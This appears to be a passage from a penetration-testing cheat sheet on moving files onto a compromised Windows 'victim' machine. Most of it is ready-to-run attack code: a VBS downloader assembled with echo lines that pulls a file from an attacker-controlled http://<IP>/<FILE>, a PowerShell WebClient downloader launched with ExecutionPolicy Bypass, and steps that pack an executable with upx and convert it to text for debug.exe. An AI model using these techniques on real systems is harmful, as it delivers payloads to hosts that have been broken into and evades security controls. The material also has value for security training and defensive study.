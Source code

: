 Script for uploading files to a victim using VBS
```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Uploading files using this script
```console
script wget.vbs http://<IP>/<FILE> <FILE>
```

### Powershell

Simple script to upload files
```bash
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://<IP>/<FILE>" >> wget.ps1
echo $file = "FILE NAME" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

Uploading files using this script
```ps1
powershell.exe --ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### Debug.exe
Limit of 64k in file size

Compress file
```console
upx -9 <FILE>
```

Converting EXE -> TXT
```console
wine exe2bat.exe <FILE.exe> <FILE.txt>
```